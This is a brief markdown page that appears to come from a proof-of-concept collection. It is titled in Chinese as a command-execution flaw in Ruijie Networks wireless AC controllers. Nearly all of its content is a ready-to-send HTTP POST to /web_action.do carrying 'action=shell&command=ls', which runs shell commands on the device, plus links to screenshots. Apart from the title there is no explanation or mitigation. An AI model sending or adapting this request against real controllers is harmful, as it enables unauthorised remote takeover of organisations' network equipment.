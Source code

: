 ## 锐捷网络无线AC命令执行

![image](https://github.com/wy876/POC/assets/139549762/0ce6bf97-7771-4cd9-aebe-d7e3b9670ddc)

## poc

```
POST /web_action.do HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

action=shell&command=ls
```

![image](https://github.com/wy876/POC/assets/139549762/1e5644da-6ac6-4663-bf23-30371b69af52)
